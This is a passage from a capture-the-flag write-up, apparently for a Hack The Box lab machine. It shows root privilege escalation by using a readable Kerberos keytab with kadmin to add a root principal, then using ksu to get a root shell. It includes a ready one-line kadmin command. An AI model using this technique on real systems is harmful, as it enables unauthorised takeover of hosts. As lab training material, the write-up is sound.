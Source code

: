 
I can add root as a principle. When prompted, I enter a password (twice), and
then root shows up:

    
    
    kadmin:  add_principal root
    No policy specified for root@REALCORP.HTB; defaulting to no policy
    Enter password for principal "root@REALCORP.HTB": 
    Re-enter password for principal "root@REALCORP.HTB": 
    Principal "root@REALCORP.HTB" created.
    kadmin:  list_principals
    K/M@REALCORP.HTB
    host/srv01.realcorp.htb@REALCORP.HTB
    j.nakazawa@REALCORP.HTB
    kadmin/admin@REALCORP.HTB
    kadmin/changepw@REALCORP.HTB
    kadmin/srv01.realcorp.htb@REALCORP.HTB
    kiprop/srv01.realcorp.htb@REALCORP.HTB
    krbtgt/REALCORP.HTB@REALCORP.HTB
    root@REALCORP.HTB
    

Now `ksu` will run `su` using Kerberos, so I’ll enter the password I just
created for root:

    
    
    [admin@srv01 etc]$ ksu
    WARNING: Your password may be exposed if you enter it here and are logged 
             in remotely using an unsecure (non-encrypted) channel. 
    Kerberos password for root@REALCORP.HTB: : 
    Authenticated root@REALCORP.HTB
    Account root: authorization for root@REALCORP.HTB successful
    Changing uid to root (0)
    [root@srv01 etc]#
    

And grab `root.txt`:

    
    
    [root@srv01 ~]# cat root.txt
    5eac1728************************
    

The call to `kadmin` to then add a principal can be done in one line as well:

    
    
    [admin@srv01 etc]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB -q "add_principal -pw 0xdf root"
    Couldn't open log file /var/log/kadmind.log: Permission denied
    Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
    No policy specified for root@REALCORP.HTB; defaulting to no policy
    Principal "root@REALCORP.HTB" created.
    

## Beyond Root - KeyTab File Format
